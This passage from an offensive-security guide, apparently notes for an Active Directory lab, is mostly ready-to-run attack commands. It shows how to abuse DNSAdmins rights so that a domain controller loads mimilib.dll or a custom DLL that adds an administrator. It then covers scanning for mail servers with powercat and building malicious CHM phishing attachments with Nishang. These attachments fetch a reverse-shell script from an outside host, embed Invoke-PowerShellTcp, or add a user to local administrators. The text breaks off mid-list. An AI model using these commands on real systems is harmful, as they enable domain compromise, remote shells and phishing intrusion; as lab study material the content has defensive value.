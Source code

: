     ```powershell
    # RSAT DNS
    dnscmd cyberlab-dc /config /serverlevelplugindll \\FILESERVER_IP\dll\mimilib.dll # Absolute path
    ```
    
    or using DNSServer module (needs RSAT DNS):
    
    ```powershell
    # RSAT DNS
    $dnsettings = Get-DnsServerSetting -ComputerName cyberlab-dc -Verbose -All
    $dnsettings.ServerLevelPluginDll = "\\FILESERVER_IP\dll\mimilib.dll"  # Absolute path
    Set-DnsServerSetting -InputObject $dnsettings -ComputerName cyberlab-dc -Verbose
    ```
    
4. From a CMD shell restart the DNS service (assuming that the DNSAdmins group has the permission to do so):
    
    ```powershell
    sc \\cyberlab-dc stop dns
    sc \\cyberlab-dc start dns
    ```
    
    By default, the mimilib.dll logs all DNS queries to **C:\Windows\System32\kiwidns.log**
    
    If you want to implement a custom DLL to perform custom actions (i.e. add a user to the Administrators group), it is possible to use the template present at this link [DNSAdmin-DLL](https://github.com/kazkansouh/DNSAdmin-DLL). In fact, the DLL must export predefined functions to be accepted by the DNS service.
    

## Phishing

In order to perform a phishing attack it is necessary to perform the following steps:

1. Find the mail server by looking at SMTP open ports (25, 587, 465):
    
    ```powershell
    (25, 587, 465) | % {powercat -c smtp.cyberlab.local -p $_ -t 1 -Verbose -d}
    ```
    
2. Generate a malicious attachment to be sent within the mail message:
    
    ```powershell
    # Nishang
    Out-CHM -PayloadScript .\Invoke-PowerShellTcp.ps1 -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
    Out-CHM -PayloadURL http://192.168.50.53/powercat_connect.ps1 -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
    Out-CHM -Payload "-c net localgroup administrators CYBERLAB\STUDENT01 /add" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
    